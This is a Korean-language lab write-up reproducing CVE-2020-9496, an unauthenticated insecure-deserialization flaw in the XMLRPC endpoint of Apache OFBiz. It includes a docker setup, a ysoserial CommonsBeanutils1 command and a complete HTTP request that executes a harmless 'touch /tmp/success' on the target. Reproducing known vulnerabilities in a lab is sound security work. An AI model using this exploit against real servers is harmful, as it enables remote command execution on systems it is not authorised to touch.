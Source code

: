 # ApacheOfBiz에서 XMLRPC 인자에 대한 안전하지 않은 역직렬화 (CVE-2020-9496)

Apache OFBiz는 오픈 소스 ERP(enterprise resource planning, 전사적 자원 관리) 시스템으로 이는 기업의 많은 비즈니스 프로세스를 통합하고 자동화하는 기업 애플리케이션 제품군을 제공한다.

OfBiz는 `/webtools/control/xmlrpc`에 XMLRPC 엔드포인트를 노출하는데 대게 인증은 서비스별로 적용되므로 이는 인증되지 않은 엔드포인트이다. 하지만, XMLRPC 요청은 인증 전에 처리되기에 이 과정에서 원격 호출로 인한 직렬화된 인자가 역직렬화된다. 따라서 클래스 경로에 원격 코드 실행을 위한 도구로 사용할 수 있는 클래스가 포함되어 있으면, 공격자는 OfBiz 서버에서, OfBiz를 실행하는 서블릿 컨테이너와 동일한 권한을 가지는 등의 임의의 시스템 명령을 실행할 수 있다. 

<용어 정의>

직렬화: 객체들의 데이터를 연속적인 데이터(스트림)로 변형하여 전송 가능한 형태로 만드는 것

역직렬화: 직렬화된 데이터를 다시 객체의 형태로 만드는 것

XMLRPC: XML-RPC란, RPC 프로토콜의 일종으로서, 인코딩 형식에서는 XML을 채택하고, 전송 방식에서는 HTTP 프로토콜을 사용하고 있다.

## 실행 환경 구성

Apache OfBiz (17.12.01)를 실행하기 위해 아래 명령어를 입력하자:

```
docker compose up -d
```
 
잠시 후, 로그인 페이지가 나타나는데 `https://your-ip/myportal/control/main`에서 확인할 수 있다.

## 취약점 재현

CommonsBeanutils1 payload 생성:

```
java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/success" | base64 | tr -d "\n"
```

![](1.png)

`[base64-payload]`를 교체하고, request 보내기:

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![](2.png)

`touch /tmp/success` 컨테이너에서 실행된 것을 확인할 수 있다:

![](3.png)

## 참조:

1. https://securitylab.github.com/advisories/GHSL-2020-069-apache_ofbiz
2. https://github.com/dwisiswant0/CVE-2020-9496
3. https://www.cnblogs.com/ph4nt0mer/p/13576739.html
